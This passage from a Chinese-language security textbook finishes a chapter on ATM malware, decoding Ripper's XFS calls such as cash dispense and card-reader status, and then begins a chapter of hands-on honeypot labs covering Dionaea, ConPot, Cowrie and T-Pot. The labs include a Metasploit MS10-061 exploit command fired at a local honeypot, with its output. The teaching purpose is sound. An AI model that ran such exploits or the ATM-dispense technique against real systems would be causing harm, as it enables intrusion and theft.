.text:004090CB mov [ebp-1Bh], ecx
.text:004090CE mov [ebp-1Fh], edi
.text:004090D1 call ds:WFSExecute
```

为了知道答案，您需要准备好 XFS SDK 的头文件（参见图 20-11）。


图 20-11 OpenXFS 头文件

每个头文件代表一种外设，并位于以下范围内：

- 100 - XFSPTR 银行打印机定义
- 200 - XFSIDC 识别卡单元定义
- 300 - XFSCDM 现金分配器定义
- 400 - XFSPIN 个人身份识别号码键盘定义
- 800 - XFSSIU 传感器和指示器单元定义
- 900 - XFSVDM 供应商相关模式定义

由于问题中的数字是 302，让我们来看看 SDK 中的 XFSCDM 文件定义。我们关注“CDM 执行命令”部分，因为调用了 WFSExecute（“CMD 信息命令”部分是在调用 WFSGetInfo 时使用）。计算目标数字的公式如下：
(CMD_SERVICE_OFFSET = WFS_SERVICE_CLASS_CDM(3) * 100) + 2 = 302
我们能够识别出问题中的 302 命令，即 WFS_CMD_CDM_DISPENSE，它指的是分配现金。

```
#define             WFS_SERVICE_CLASS_CDM                         (3) ⑤
#define             WFS_SERVICE_CLASS_VERSION_CDM                 0x0003
#define             WFS_SERVICE_CLASS_NAME_CDM                    "CDM"

#define             CDM_SERVICE_OFFSET                            (WFS_SERVICE_CLASS_CDM * 100) ⑤
```

# /* CDM 信息命令 */

```
#define             WFS_INF_CDM_STATUS                            (CDM_SERVICE_OFFSET + 1)
#define             WFS_INF_CDM_CAPABILITIES                      (CDM_SERVICE_OFFSET + 2)
#define             WFS_INF_CDM_CASH_UNIT_INFO                    (CDM_SERVICE_OFFSET + 3)
#define             WFS_INF_CDM_TELLER_INFO                       (CDM_SERVICE_OFFSET + 4)
#define             WFS_INF_CDM_CURRENCY_EXP                      (CDM_SERVICE_OFFSET + 6)
#define             WFS_INF_CDM_MIX_TYPES                         (CDM_SERVICE_OFFSET + 7)
#define             WFS_INF_CDM_MIX_TABLE                         (CDM_SERVICE_OFFSET + 8)
#define             WFS_INF_CDM_PRESENT_STATUS                    (CDM_SERVICE_OFFSET + 9)
```

# /* CDM 执行命令 */

```
#define             WFS_CMD_CDM_DENOMINATE                        (CDM_SERVICE_OFFSET + 1)
#define             WFS_CMD_CDM_DISPENSE                          (CDM_SERVICE_OFFSET + 2) ⑥

#define             WFS_CMD_CDM_PRESENT                           (CDM_SERVICE_OFFSET + 3)
#define             WFS_CMD_CDM_REJECT                            (CDM_SERVICE_OFFSET + 4)
#define             WFS_CMD_CDM_RETRACT                           (CDM_SERVICE_OFFSET + 5)
#define             WFS_CMD_CDM_OPEN_SHUTTER                      (CDM_SERVICE_OFFSET + 7)
#define             WFS_CMD_CDM_CLOSE_SHUTTER                     (CDM_SERVICE_OFFSET + 8)
#define             WFS_CMD_CDM_SET_TELLER_INFO                   (CDM_SERVICE_OFFSET + 9)
#define             WFS_CMD_CDM_SET_CASH_UNIT_INFO                (CDM_SERVICE_OFFSET + 10)
#define             WFS_CMD_CDM_START_EXCHANGE                    (CDM_SERVICE_OFFSET + 11)
#define             WFS_CMD_CDM_END_EXCHANGE                      (CDM_SERVICE_OFFSET + 12)
#define             WFS_CMD_CDM_OPEN_SAFE_DOOR                    (CDM_SERVICE_OFFSET + 13)
```

# /* CDM 消息 */

```
#define             WFS_SRVE_CDM_SAFEDOOROPEN                     (CDM_SERVICE_OFFSET + 1)
#define             WFS_SRVE_CDM_SAFEDOORCLOSED                   (CDM_SERVICE_OFFSET + 2)
#define             WFS_USRE_CDM_CASHUNITTHRESHOLD                (CDM_SERVICE_OFFSET + 3)
#define             WFS_SRVE_CDM_CASHUNITINFOCHANGED              (CDM_SERVICE_OFFSET + 4)
#define             WFS_SRVE_CDM_TELLERINFOCHANGED                (CDM_SERVICE_OFFSET + 5)
```

# /* WOSA/XPS CDM 错误 */

```
#define WFS_ERR_CDM_INVALIDCURRENCY                               ( - (CDM_SERVICE_OFFSET + 0) )
#define WFS_ERR_CDM_INVALIDTELLERID                               ( - (CDM_SERVICE_OFFSET + 1) )
#define WFS_ERR_CDM_CASHUNITERROR                                 ( - (CDM_SERVICE_OFFSET + 2) )
#define WFS_ERR_CDM_INVALIDDENOMINATION                           ( - (CDM_SERVICE_OFFSET + 3) )
#define WFS_ERR_CDM_INVALIDMIXNUMBER                              ( - (CDM_SERVICE_OFFSET + 4) )
#define WFS_ERR_CDM_NOCURRENCYMIX                                 ( - (CDM_SERVICE_OFFSET + 5) )
```

```
typedef struct _wfs_cdm_cashunit ⑦
{
USHORT   usNumber;
USHORT   usType;
LPSTR    lpszCashUnitName;
CHAR     cUnitID[5];
CHAR     cCurrencyID[3];
ULONG    ulValues;
ULONG    ulInitialCount;
ULONG    ulCount;
ULONG    ulRejectCount;
ULONG    ulMinimum;
ULONG    ulMaximum;
BOOL     bAppLock;
USHORT   usStatus;
USHORT   usNumPhysicalCUs;
LPWFSCDMPHCU  *lppPhysical;
} WFSCDMCASHUNIT, * LPWFSCDMCASHUNIT;
```

这些定义文件中还有更多有用的信息，可以帮助逆向工程师充分理解恶意软件逻辑，例如状态消息、错误消息，甚至结构定义 ⑦。

现在，您应该能够解剖从 Ripper 恶意软件中取出的下一个代码清单中执行的命令了：

```
.text:0040257B      push    ebx
.text:0040257C      push    ebx
.text:0040257D      push    201 ⑧
.text:00402582      push    eax
.text:00402583      mov     [ebp-4Ch], ebx
.text:00402586      call    ds:WFSGetInfo
```

我们可以看到，命令 201 ⑧ 属于 XFSIDC 定义文件（参见图 20-11），并且因为正在使用 WFSGetInfo 调用，这次我们关注“IDC 信息命令”部分。接下来，我们识别出正在调用 WFS_INF_IDC_STATUS ⑨ 命令，基本上是为了了解读卡器的状态！

```
#define  WFS_SERVICE_CLASS_IDC                         (2)
#define  WFS_SERVICE_CLASS_NAME_IDC                    "IDC"
#define  WFS_SERVICE_CLASS_VERSION_IDC                 0x0203

#define  IDC_SERVICE_OFFSET                            (WFS_SERVICE_CLASS_IDC * 100)

/* IDC Info Commands */
#define  WFS_INF_IDC_STATUS                            (IDC_SERVICE_OFFSET + 1)
#define  WFS_INF_IDC_CAPABILITIES                      (IDC_SERVICE_OFFSET + 2)
#define  WFS_INF_IDC_FORM_LIST                         (IDC_SERVICE_OFFSET + 3)
#define  WFS_INF_IDC_QUERY_FORM                        (IDC_SERVICE_OFFSET + 4)

/* IDC Execute Commands */
#define  WFS_CMD_IDC_READ_TRACK                        (IDC_SERVICE_OFFSET + 1)
#define  WFS_CMD_IDC_WRITE_TRACK                       (IDC_SERVICE_OFFSET + 2)
#define  WFS_CMD_IDC_EJECT_CARD                        (IDC_SERVICE_OFFSET + 3)
#define  WFS_CMD_IDC_RETAIN_CARD                       (IDC_SERVICE_OFFSET + 4)
```

对于专注于控制 XFS 中间件（Aglis、APTRA、Kalignite 等）的 Ploutus 等恶意软件，此方法不起作用。幸运的是，Ploutus 喜欢 .NET。因此，一旦恶意软件被去混淆，完整的源代码即可用于分析，无需逆向绝大多数组件（尽管某些组件是用 Delphi 实现的，需要进行逆向）。

## ATM 恶意软件对策

以下是处理 ATM 恶意软件时的最佳实践列表，这些实践绝对推荐，但不适用于所有攻击场景：

- 只有当防病毒软件或主机入侵防御系统（HIPS）“了解 ATM 环境”时才有用。例如，这些产品通常无法检测分配器中的恶意行为。
- 磁盘加密有助于防止通过从 ATM 断开存储设备来将恶意软件转移到柜员机的脱机攻击。
- 应用程序白名单有助于仅执行预期的进程。
- 渗透测试有助于在黑客之前主动识别问题。
- 应启用带密码保护的 BIOS。
- ATM 恶意软件培训有助于了解如何解剖和检测特定威胁。
- 应遵循“ATM 软件安全最佳实践指南”和“ATM 安全准则”。有关更多具体信息，请参阅“进一步阅读”部分。

## 摘要


在本章中，我们描述了 ATM 的不同组件及其在取款过程中所扮演的角色。我们探讨了影响这些自动柜员机的不同类型的恶意软件，剖析了其内部工作原理。最后，我们介绍了应对这种威胁的对策，试图降低其风险，这种威胁已导致全球银行损失数百万美元。

## 进一步阅读

- ATM 安全指南 https://www.pcisecuritystandards.org/pdfs/PCI_ATM_Security_Guidelines_Ir
- ATM 软件安全最佳实践指南 https://www.atmia.com/files/Best%20Practices/ATMIA%20Best%20Practices%20
- XFS 中间件 https://en.wikipedia.org/wiki/CEN/XFS

## 参考文献

- 1. “CWA 13449 - XFS 接口规范发行版 2.0，”欧洲标准化委员会，https://www.cen.eu/work/areas/ICT/eBusiness/Pages/CWA13449.aspx。
- 2. OpenXFS 仓库，freexfs，https://code.google.com/archive/p/freexfs/。
- 3. Daniel Regalado，“RIPPER ATM 恶意软件与1200万泰铢头奖，”FireEye，2016年8月26日，https://www.fireeye.com/blog/threat-research/2016/08/ripper_atm_malwarea.html。
- 4. Infostealer.PanDeBono，Symantec，2014年6月26日，https://www.symantec.com/security_response/writeup.jsp?docid=2014-042323-5548-99&tabid=2；Infostealer.Neabolsa，Symantec，2014年4月23日，https://www.symantec.com/security_response/writeup.jsp?docid=2014-042214-1330-99&tabid=2。
- 5. Brian Krebs，“追踪墨西哥蓝牙读卡器犯罪团伙，”Krebs on Security，2015年9月15日，https://krebsonsecurity.com/2015/09/tracking-a-bluetooth-skimmer-gang-in-mexico/。
- 6. Daniel Regalado，“SUCEFUL：下一代 ATM 恶意软件，”FireEye，2015年9月11日，https://www.fireeye.com/blog/threat-research/2015/09/suceful_next_genera.html。

## 第 21 章

## 欺骗：下一代蜜罐

本章介绍了出于防御目的的欺骗主题。本章首先从历史角度探讨了冲突中的欺骗，然后转而介绍如何利用蜜罐对信息系统进行欺骗防护。本章提供了大量动手示例，并探讨了欺骗与蜜罐技术的最新进展。

在本章中，我们将介绍以下主题：

- 欺骗简史
- 蜜罐作为一种欺骗形式
- 开源蜜罐
- 商业选项

### 欺骗简史

欺骗与冲突一样悠久。事实上，早在公元前800年之前，孙子在其著作《孙子兵法》中说：“所有战争都基于欺骗。”¹ 在战争中使用欺骗的一个著名例子是二战期间的“保镖行动”，当时盟军使用欺骗来佯攻，使德国人认为进攻来自另一个方向。² 几个伪造的机场和一支由好莱坞布景搭建者组成的小型军队制造了充气坦克、飞机和建筑物。所有这些努力都成功地欺骗了德国人，并导致他们在 D 日将一部分部队保留在后方。

就利用欺骗来保护信息系统而言，许多人都认为 Fred Cohen 是欺骗及其衍生概念（例如蜜罐）的鼻祖。Cohen 还以首先于 1984 年发表“计算机病毒”这一术语而闻名，³ 他在文中引用了创造该术语的 Len Adleman。后来，Cohen 撰写了奠基性著作《论欺骗在信息保护中的作用》，发表于 1998 年。⁴ 虽然 Cohen 向他之前的其他人致谢，例如 Bill Cheswick 和 AT&T 的研究人员，但正是 Cohen 及其同事创建了欺骗工具包，它成为最早的真实蜜罐之一。⁵

如果 Fred Cohen 是现代欺骗技术和蜜罐的鼻祖，那么 Lance Spitzner 应该被视为这些技术之父。1999 年，Lance Spitzner 仅凭卧室里一台接入互联网的计算机，⁶ 激励了一代爱好者并创立了 honeynet.org 组织，⁷ 该组织至今仍在为欺骗技术领域做出贡献。honeynet.org 组织定义并构建了多种层级和类型的蜜罐，其中许多是我们今天所拥有技术的前身。我们站在这些巨人的肩膀上，在本章中介绍一些最新技术。

### 蜜罐作为一种欺骗形式

蜜罐可以简单定义为一种除了被攻击并由此发出此类活动警报外，没有合法用途的系统。如前所述，蜜罐多年来一直用于欺骗。早期蜜罐技术的问题之一是缺乏可扩展性。部署和监控该技术通常需要经验丰富的安全专家，在某些环境中，即使只监控几个蜜罐，这也是一份全职工作。在当今的企业环境中，旧的蜜罐技术部署起来太过劳动密集，难以有效实施。然而，旧的又变成了新的！随着更先进的虚拟化技术、Docker 等容器技术以及 Elasticsearch、Logstash、Kibana（ELK）等分析工具的出现，曾经是一项全职挑战的事情，现在已经转变为任何组织网络防御的宝贵资产，可以兼职管理。正如我们将在本章中展示的那样，现代蜜罐易于大规模部署和管理。甚至行业分析师也指出，应部署现代欺骗技术以补充其他企业安全技术。⁸ 蜜罐技术不会取代其他技术层，但一旦攻击者进入网络，它可能是抓住他们的最佳机会。

部署蜜罐作为一种欺骗形式的主要原因是延迟、干扰和分散攻击者的注意力，以便发现并阻止他们。蜜罐技术的关键属性是其低误报特性。根据我们使用的定义，除了攻击者之外，任何人都不应该触碰蜜罐。因此，当连接到蜜罐时，要么是需要处理的配置错误的服务器，要么是需要处理的好奇用户，要么是需要处理的攻击者。没有其他选择；因此，蜜罐技术可以说是尽可能低误报的。在当今误报率高的环境中，能够部署低误报或无误报技术的能力应该引起您的注意。

我们将详细介绍以下类型的蜜罐技术：

- 高交互蜜罐
- 低交互蜜罐
- 中交互蜜罐
- 蜜客户端
- 蜜令牌

### 高交互蜜罐

高交互蜜罐通常是经过监控以实时捕获攻击者的真实系统。当然，高交互蜜罐的问题是，真实系统可能被获取 root 权限，然后被攻击者用来进一步攻击托管网络或其他网络。因此，高交互蜜罐风险高，通常被避免。

### 低交互蜜罐

低交互蜜罐处于光谱的另一端；它们是运行在某种模拟环境中的模拟服务，该服务模拟真实响应。然而，这种模拟通常存在局限性。例如，Telnet 服务的命令可能使用 Python 或其他脚本语言进行模拟，但并非所有命令都有效。例如，如果攻击者尝试使用 wget 下载文件，该命令可能看起来有效，但文件不会提供给攻击者；相反，它会提供给防御者以供进一步分析。还有其他实际限制，即可能无法模拟 Telnet 的所有命令。因此，如果攻击者尝试其中一个命令但失败，欺骗可能就宣告失败。我们将在即将到来的章节和实验室中介绍一些流行的低交互蜜罐。

### 中交互蜜罐

中交互蜜罐特意排在其他两种之后，因为它们是深度模拟服务的一个较新概念。这包括完全复制复杂的操作系统进程，例如 SMB 网络协议，程度足以让攻击者针对看似易受攻击的服务运行真实的利用程序，在某些情况下甚至可以返回 shell。与低交互蜜罐相比，这是显著改进，低交互蜜罐通常会在这类攻击中失败。一些中交互蜜罐实际上会将命令代理到真实操作系统，以实现这种程度的欺骗。⁹¹⁰ 中交互蜜罐的另一种形式是金丝雀服务，它运行在真实系统上，其目的是向防御者发出攻击者行为的警报。

### 蜜客户端

蜜客户端是蜜罐的另一面。通常，蜜罐是服务，用于请求攻击者建立连接和发送请求；而蜜客户端是客户端应用程序，旨在与可能已被攻破的系统建立连接，并提取二进制文件和潜在恶意软件，以供分析并在企业的其他地方用于防御目的。还有基于 Web 的蜜客户端及其他形式的蜜客户端可供使用。¹¹

### 蜜令牌

蜜令牌是任何不属于传统服务器/客户端模式的诱饵形式。蜜令牌的常见形式是一个包含对攻击者有吸引力的假数据的文件。当攻击者使用该文件时，它会向防御者发出其存在的警报。例如，想象一个名为 passwords.txt 的文件，位于蜜罐系统上用户的根目录中。该文件包含不存在的假账户和假密码。然而，攻击者在尝试使用这些账户时并不知道这一点，此时企业的安全信息事件管理（SIEM）系统会触发警报，通知防御者发生了攻击。canarytokens.org 是生成和跟踪蜜令牌的优秀开源资源。¹² 另一个出色的开源项目，提供


在 Linux 环境中要部署的蜜罐是 honeybits。13

## 部署注意事项

部署蜜罐时，应考虑几个事项。首先，蜜罐应尽可能逼真，从而对攻击者具有吸引力。真实程度——即看起来 _真实_ 的程度——将决定你是抓到攻击者，还是浪费时间，或者更糟。14 毕竟，如果攻击者发现你正在运行蜜罐，就不要指望他们会手下留情。最好的情况是，他们会直接离开；最坏的情况是，他们可能开始删除东西——而且不仅限于你的蜜罐。因此，应非常重视蜜罐的真实性，尤其是当它放置在生产环境中时。例如，如果蜜罐应该是一个 Linux 系统，那么不要运行 Windows 服务，反之亦然。此外，如果攻击者获得了系统访问权限，就给他们留些真实的东西可供发现，例如 honeytokens 或其他逼真的用户级文档和配置。

其次，你放置蜜罐的位置也会带来不同。在考虑面向互联网的蜜罐时，你可以问自己：SCADA（监控控制和数据采集）服务是否真的会托管在 Amazon AWS IP 地址空间中。在考虑内部蜜罐时，运行的配置和服务应与你放置蜜罐的环境融为一体。如果整个企业都在运行 Windows，只有一台主机除外，作为攻击者你会怀疑什么？另外，如果存在用户 VLAN 和服务器 VLAN，那么基于主机的蜜罐（服务很少甚至没有）应位于用户 VLAN，而具有多个但逼真服务的服务器类型配置应位于服务器 VLAN。

然而，对于安全研究人员来说，还有另一种选择。在非生产环境中使用蜜罐以进行研究时，你可以更自由地撒网（或者说搭建蜜网）。通过在云端运行一个开放多个端口（即使这些端口放在一起也不合理）的系统，你当然可以阻止高级攻击者，但蠕虫的最新变种会欣然连接并捐赠一个二进制样本供你分析。你看，这全部取决于你最初建立蜜罐的目的。

## 设置虚拟机

你可能决定将蜜罐安装在真正的完整操作系统上，但你可能希望从虚拟机提供的保护中受益，包括快照、与主机的显著隔离以及虚拟网络设置。在本章中，我们使用在虚拟机中运行的 64 位 Kali Linux 2017.1 来利用 Docker。然而，你也可以决定在云端（如 Amazon AWS、Digital Ocean 或类似平台）上运行蜜罐。


注意 请参阅“进一步阅读”部分，了解在 Amazon AWS 上设置 Ubuntu 16.04 的参考，但用户需自担风险：不要违反 Amazon 或你托管服务的任何用户协议。你已被警告。

## 开源蜜罐

在本节中，我们演示几个开源蜜罐。

### 实验 21-1：Dionaea

在本实验中，我们研究 Dionaea 蜜罐，这是一个模拟多个服务的轻量级蜜罐。15


注意 本章的实验需要 64 位 Linux，因为 Docker 不支持 32 位操作系统。我们使用 64 位 Kali 2017.1，如果你想跟进操作。

首先，设置一个文件夹以便从 Docker 中传输文件：

```
root@kali:~# mkdir data
```

拉取并运行 Dionaea Docker 镜像：

```
docker run -it -p 21:21 -p 42:42 -p 69:69/udp -p 80:80 -p 135:135 -p 443:443 -p 445:445 -p 1433:1433 -p 1723:1723 -p 1883:1883 -p 1900:1900/udp -p 3306:3306 -p 5060:5060 -p 5060:5060/udp -p 5061:5061 -p 11211:11211 -v `pwd`/data:/data dinotools/dionaea-docker:latest /bin/bash
```

现在，从容器的新 shell 中，让我们做一些更改并启用日志记录：

```
[container hash id]# sed -i 's/#default./default./' /opt/dionaea/etc/dionaea/dionaea.cfg
```

接下来，让我们在 dionaea.cfg 文件中启用会话的流捕获：

```
# cat <<EOF> /opt/dionaea/etc/dionaea/dionaea.cfg
[processor.filter_streamdumper]
name=filter
config.allow.0.types=accept
config.allow.1.types=connect
config.allow.1.protocols=ftpctrl
config.deny.0.protocols=ftpdata,ftpdatacon,xmppclient
next=streamdumper
[processor.streamdumper]
name=streamdumper
config.path=/opt/dionaea/var/dionaea/bistreams/%Y-%m-%d/
EOF
```

现在，启用处理器：

```
# sed -i 's/processors=filter_emu/processors=filter_emu,filter_streamdumper/' /opt/dionaea/etc/dionaea/dionaea.cfg
```

现在，让我们启动它：

```
# /opt/dionaea/bin/dionaea -u dionaea -g dionaea -c /opt/dionaea/etc/dionaea/dionaea.cfg
```

打开另一个 Kali 终端会话，并从该新 shell 中使用 Metasploit 攻击蜜罐：

```
root@kali:~/dionaea# msfconsole -x "use exploit/windows/smb/ms10_061_spoolss; set PNAME HPPrinter; set RHOST 127.0.0.1; set LHOST 127.0.0.1; set LPORT 4444; exploit; exit"
```

### Metasploit

数据管理麻烦？在 Metasploit Pro 中列出、排序、分组、标记和搜索你的渗透测试数据 -- 了解更多信息请访问 http://rapid7.com/metasploit

```
= [ metasploit v4.14.10-dev                             ]
+ -- --=[ 1639 exploits - 944 auxiliary - 289 post        ]
+ -- --=[ 472 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/try_msp ]
```

```
PNAME => HPPrinter
RHOST => 127.0.0.1
LHOST => 127.0.0.1
LPORT => 4444
```

```
[!] You are binding to a loopback address by setting LHOST to
127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] 127.0.0.1:445 - Trying target Windows Universal...
[*] 127.0.0.1:445 - Binding to 12345678-1234-abcd-EF00
0123456789ab:1.0@ncacn_np:127.0.0.1[\spoolss] ...
[*] 127.0.0.1:445 - Bound to 12345678-1234-abcd-EF00
0123456789ab:1.0@ncacn_np:127.0.0.1[\spoolss] ...
[*] 127.0.0.1:445 - Attempting to exploit MS10-061 via
\\127.0.0.1\HPPrinter ...
[*] 127.0.0.1:445 - Printer handle:
00000000000000000000000000000000000000000000000000
[*] 127.0.0.1:445 - Job started: 0x3
[*] 127.0.0.1:445 - Wrote 73802 bytes to
%SystemRoot%\system32\VKurZGLb7Kudrj.exe
[*] 127.0.0.1:445 - Job started: 0x3
[*] 127.0.0.1:445 - Wrote 2241 bytes to
%SystemRoot%\system32\wbem\mof\RN21znSEgz7T0S.mof
[-] 127.0.0.1:445 - Exploit failed: NoMethodError undefined
method `unpack' for nil:NilClass
[*] Exploit completed, but no session was created.
```

请注意，来自 Metasploit 的攻击失败了。然而，这是预料之中的，因为我们运行的是低交互式蜜罐。不过，有效载荷已被传输和捕获，这也是本实验的目的。

现在，从第二个 Kali shell 中，像下面所示那样使用 FTP 连接到你的蜜罐。如果你是全新安装的 Kali，则需要先安装 FTP。

```
root@kali:~/dionaea# apt-get install ftp
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following NEW packages will be installed:
  ftp
0 upgraded, 1 newly installed, 0 to remove and 1220 not upgraded.
Need to get 58.7 kB of archives.
After this operation, 135 kB of additional disk space will be
used.
```

```
root@kali:~# ftp 127.0.0.1
Connected to 127.0.0.1.
220 DiskStation FTP server ready.
Name (127.0.0.1:root): foo
331 Password required for foo.
Password:
230 User logged in, proceed
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> help
Commands may be abbreviated.  Commands are:
```

| ! | dir | mdelete | qc | site |
|---|---|---|---|---|
| $ | disconnect | mkdir | sendport | size |
| account | exit | mget | put | status |
| append | form | mget | pwd | struct |
| ascii | get | mls | quit | system |
| bell | glob | mode | quote | sunique |
| binary | hash | modtime | recv | enex |
| bye | help | mput | reget | tick |
| case | idle | newer | rstatus | trace |
| cd | image | nmap | rhelp | type |
| cdup | ipany | nlist | rename | user |
| chmod | ipv4 | trans | reset | umask |
| close | ipv6 | open | restart | verbose |
| cr | lcd | prompt | rmdir | ? |
| delete | ls | passive | runique | |
| debug | macdef | proxy | send | |

```
ftp> bye
root@kali:~#
```

现在，让我们查看日志。从蜜罐 shell 中，按 ctrl-c 停止蜜罐，然后按如下方式查看日志：


# more /opt/dionaea/var/dionaea/dionaea.log

二进制文件可在以下位置找到
# ls /opt/dionaea/var/dionaea/binaries/
和会话数据流可在以下位置找到
# ls /opt/dionaea/var/dionaea/bitstreams/


注意 由于我们的蜜罐在 Docker 中运行，文件不具备持久性。因此，如果您想进一步检查某个文件，需要将其移动到我们设置的共享文件夹。在 Docker 容器内，使用 tar 将文件复制到 /data 文件夹，该文件夹映射到我们在 Kali 上的工作目录，如下所示：

```
# tar -cvf /data/dionaea.tar /opt/dionaea/var/dionaea/
```

## 实验 21-2：ConPot

在本实验中，我们将研究 ConPot 蜜罐，它模拟了一个 ICS/SCADA 设备。16

再次创建一个目录，这次用于存放日志（另一种常见用例）：

```
root@kali:~# mkdir -p var/log/conpot
```

现在拉取并运行 ConPot 蜜罐：

```
root@kali:~# docker run -it -p 80:80 -p 102:102 -p 502:502 -p 161:161/udp -v $(pwd)/var/log/conpot:/var/log/conpot --network=bridge honeynet/conpot:latest
```

现在，从另一个 Linux 或 Mac shell 中，针对主机运行 snmpwalk：

```
$ snmpwalk -c public 192.168.80.231
SNMPv2-MIB::sysDescr.0 = STRING: Siemens, SIMATIC, S7-200
SNMPv2-MIB::sysObjectID.0 = OID: SNMPv2-SMI::enterprises.20408
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (415) 0:00:04.15
SNMPv2-MIB::sysContact.0 = STRING: Siemens AG
SNMPv2-MIB::sysName.0 = STRING: CP 443-1 EX40
SNMPv2-MIB::sysLocation.0 = STRING: Venus
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (0) 0:00:00.00
SNMPv2-MIB::snmpInPkts.0 = Counter32: 9
SNMPv2-MIB::snmpOutPkts.0 = Counter32: 0
SNMPv2-MIB::snmpInBadVersions.0 = Counter32: 0
SNMPv2-MIB::snmpInBadCommunityNames.0 = Counter32: 0
SNMPv2-MIB::snmpInBadCommunityUses.0 = Counter32: 0
SNMPv2-MIB::snmpInASNParseErrs.0 = Counter32: 0
...<truncated for brevity>...
```

打开网页并查看下一张截图所示的 Web 界面。请务必点击几次 Refresh 以查看变化。


注意 系统名称和其他指纹项可在源文件的 templates 目录中调整。强烈建议您修改这些内容；否则，您将不会拥有一个非常活跃的 ConPot。

日志可在共享文件夹中找到：

```
root@kali:~# less var/log/conpot/conpot.log
```

## 实验 21-3：Cowrie

在本实验中，我们将拉取并使用 Cowrie 蜜罐，正如作者所描述的那样，它是一个中交互蜜罐，17 能够模拟 SSH 和 Telnet，最重要的是，能够捕获每个命令。它还能重播按键序列，以便有趣地查看黑客活动。

克隆蜜罐 GitHub 仓库，然后配置、构建并运行蜜罐：

```
root@kali:~# git clone https://github.com/micheloosterhof/docker-cowrie.git
```

```
root@kali:~# cd docker-cowrie
root@kali:~/docker-cowrie# mkdir -p var/log/cowrie var/run etc
root@kali:~/docker-cowrie# cat <<EOF> etc/cowrie.cfg
[telnet]
enabled = yes
EOF
```

由于此特定 Docker 镜像将用户名设置为 "cowrie"，并且我们不想设置一个全局可写的共享文件夹（以便用户可以写入日志），因此这次我们将使用 Docker 卷功能。按如下方式设置 Docker 卷：

```
root@kali:~/docker-cowrie# docker volume create cowrie
```

现在，确认卷的创建并检查其位置（稍后将使用）：

```
root@kali:~/docker-cowrie# docker volume inspect cowrie
[
 {
 "Driver": "local",
 "Labels": {},
 "Mountpoint": "/var/lib/docker/volumes/cowrie/_data",
 "Name": "cowrie",
 "Options": {},
 "Scope": "local"
 }
]
```

构建 Docker 镜像并运行它：

```
root@kali:~/docker-cowrie# ./.build.sh
root@kali:~/docker-cowrie# docker run -it -p 2222:2222 -p 2223:2223 -v etc:/cowrie/cowrie-git/etc -v cowrie:/cowrie/cowrie-git/log cowrie
b4de1484e3c86c2c9b0649920765785d3702530b51c8380cf10585911747c94f
```

如您所见，./run.sh 脚本在端口 2222（SSH）和 2223（Telnet）上运行蜜罐。您可以选择在正常端口 22 和 23 上运行它们，但您需要移除那里运行的任何实际服务。例如，要将 SSH 更改为其他端口，请编辑 /etc/ssh/sshd_config，更改端口设置，并发出以下命令以重启服务：

```
# service ssh restart
```

从另一个 Linux 或 Mac shell 中与蜜罐交互。您可以使用 root 以及除 root 或 123456 之外的任何密码登录：

```
$ ssh -p 2222 root@192.168.80.231
The authenticity of host '[192.168.80.231]:2222 ([192.168.80.231]:2222)' can't be established.
RSA key fingerprint is
SHA256:/rjInNCAgF5SFRbyMxppF0gVniQGX7nN6rTp6x1hNm4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.80.231]:2222' (RSA) to the list of known hosts.
Password:

The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law.

root@svr04:~# ls
root@svr04:~# pwd
/root
root@svr04:~# id
uid=0(root) gid=0(root) groups=0(root)
root@svr04:~# wget www.google.com
--2017-08-19 00:53:19--  http://www.google.com
Connecting to www.google.com:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html; charset=ISO-8859-1]
Saving to: ‘/root/index.html’

100%[===============================>] 0           --
eta 0s

2017-08-19 00:53:20 (9 KB/s) - ‘/root/index.html’ saved [10457/0]

root@svr04:~# cat index.html
cat: /root/index.html: No such file or directory
root@svr04:~# ls -l
-rw-r--r-- 1 root root 0 2017-08-19 00:53 index.html
root@svr04:~#
```

请注意，系统似乎只下载了一个文件（实际上文件并不存在，文件大小为零）。在 Docker 实例上按 ctrl-c 停止容器。

现在，Cowrie 的一个巧妙之处在于能够按照黑客的时间序列重放攻击。使用前述卷位置，下载 Cowrie playlog 脚本并针对 tty 日志运行它：

```
root@kali:~/docker-cowrie# wget https://github.com/micheloosterhof/cowrie/raw/master/bin/playlog
--2017-08-18 23:10:24--
...<truncated for brevity>...
(raw.githubusercontent.com) |151.101.56.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3853 (3.8K) [text/plain]
Saving to: 'playlog'

playlog
100%[================================================================================================================>] 3.76K --.-KB/s    in 0s
==============================================================================================>]  3.76K --.-KB/s    in 0s

2017-08-18 23:10:24 (37.8 MB/s) - 'playlog' saved [3853/3853]
```

```
root@kali:~/docker-cowrie# chmod 755 playlog
root@kali:~/docker-cowrie# ./playlog /var/lib/docker/volumes/cowrie/_data/tty/*
```

Debian GNU/Linux 系统中包含的程序是自由软件；每个程序的确切发行条款在 /usr/share/doc/*/copyright 中的单独文件中说明。

Debian GNU/Linux 在适用法律允许的范围内不提供任何担保。

```
root@svr04:~# ls
root@svr04:~# id
uid=0(root) gid=0(root) groups=0(root)
root@svr04:~# pwd
/root
root@svr04:~# exit
root@kali:~/docker-cowrie#
```

这太酷了：我们可以实时查看自动化机器人输入或运行的内容。playlog 脚本还带有减慢或加快播放速度的选项。

## 实验 21-4：T-Pot

在本实验中，我们将汇总所有内容并下载安装 T-Pot 蜜罐，它是对多种其他蜜罐的自动化安装，包括我们在之前实验中使用的那些。此外，T-Pot 包含一个基于 Elasticsearch、Logstash 和 Kibana（ELK）堆栈的用户界面。18 本实验中测试的 T-Pot 版本可从本书网站下载。最新版本可从 T-Pot GitHub 下载（请参阅“进一步阅读”部分）。

T-Pot 蜜罐的最低系统要求是标准蜜罐的 4GB 内存和 64GB 硬盘空间（它可能在更少的资源下运行，但这些是公布的


